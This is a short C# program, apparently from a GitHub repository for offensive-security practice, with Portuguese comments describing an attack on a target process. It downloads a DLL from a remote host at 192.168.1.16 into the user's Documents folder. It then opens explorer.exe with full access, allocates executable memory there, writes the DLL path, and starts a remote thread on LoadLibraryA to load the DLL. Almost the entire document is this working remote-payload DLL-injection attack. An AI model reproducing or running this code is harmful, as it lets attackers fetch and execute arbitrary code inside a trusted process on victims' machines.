 ```csharp
using System;
using System.Diagnostics;
using System.Net;
using System.Runtime.InteropServices;
using System.Text;

namespace InjectDLL
{
    class Program

    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
        static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
        public static extern IntPtr GetModuleHandle(string lpModuleName);

        static void Main(string[] args)

        {
            String dir = Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
            String dllName = dir + "\\chucrutis.dll";

            WebClient wc = new WebClient();
            wc.DownloadFile("http://192.168.1.16:1235/chucrutis.dll", dllName);

            Process[] expProc = Process.GetProcessesByName("explorer");
            int pid = expProc[0].Id;
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
            // Função responsável por alocar um espaço na memória do processo atacado para passar 
            // o caminho da DLL que será carregada pela função "LoadLibraryA"
            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
            IntPtr outSize;

            // Função responsável por escrever o caminho da DLL dentro do espaço de memória alocado
            Boolean res = WriteProcessMemory(hProcess, addr, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);

            // Achando o endereço da função "LoadLibraryA" dentro da DLL kernel32
            IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, addr, 0, IntPtr.Zero);
        }

    }
}
```
